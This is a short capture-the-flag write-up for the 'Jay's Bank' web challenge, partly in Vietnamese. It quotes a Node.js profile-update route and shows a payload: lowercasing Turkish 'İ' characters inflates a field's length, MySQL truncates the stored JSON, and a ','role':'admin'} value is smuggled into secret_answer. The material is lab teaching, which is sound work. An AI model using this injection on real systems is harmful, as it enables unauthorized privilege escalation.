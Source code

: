 Đề bài : Jay's Bank
Tag : trick, mysql, white box
In db.js : 
![Alt text](image.png)
This method converts object to string

Flag exists in config.js
![Alt text](image-1.png)
Maintains :
![Alt text](image-2.png)
You can see column data contains max 255 chars
Issue : length > 255 cut off the excess data

# In routes

![Alt text](image-3.png)
IF data.role = admin we can have flag :v

PUT profile
router.put("/profile", jwtAuth, async (req, res) => {
  let username = req.user.username;

  let existingData = await db.getData(username);
  try {
    existingData = JSON.parse(existingData);
  } catch {
    existingData = { role: "user" };
  }

  let { phone, credit_card, secret_question, secret_answer, current_password } =
    req.body;

  if (!current_password) {
    return res.status(400).json({
      success: false,
      message: "Missing current password",
    });
  }

  if (
    !(
      typeof current_password === "string" &&
      (await db.verifyPassword(username, current_password))
    )
  ) {
    return res
      .status(401)
      .json({ success: false, message: "Invalid current password" });
  }

  if (!phone || !credit_card || !secret_question || !secret_answer) {
    return res.status(400).json({ success: false, message: "Missing fields" });
  }

  if (phone.length !== 10 || isNaN(phone)) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid phone number" });
  }

  if (credit_card.length !== 16 || isNaN(credit_card)) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid credit card number" });
  }

  if (typeof secret_question !== "string" || secret_question.length > 45) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid secret question" });
  }

  if (typeof secret_answer !== "string" || secret_answer.length > 45) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid secret answer" });
  }

  try {
    await db.updateData(
      username,
      db.convert({
        phone,
        credit_card,
        secret_question,
        secret_answer,
        role: "user",
      })
    );

    return res
      .status(200)
      .json({ success: true, message: "Successfully updated" });
  } catch {
    return res
      .status(400)
      .json({ success: false, message: "Failed to update DB" });
  }
});


check secret_answer.length > 45 
Remember to unicode "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ"

Length will > 45
ToLOwerCase() will length > 255 and role: "user", will be cut
payload = {
    "phone": "1234567890",
    "credit_card": "1234567890987654",
    "secret_question": "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ", 
    "secret_answer": 'İİİİİİİİİİİİİİİİİİİİİİİİ","role":"admin"}',
    "current_password": account['password']
}
sever stop :((( i can't demo again
Flag : not do not eat
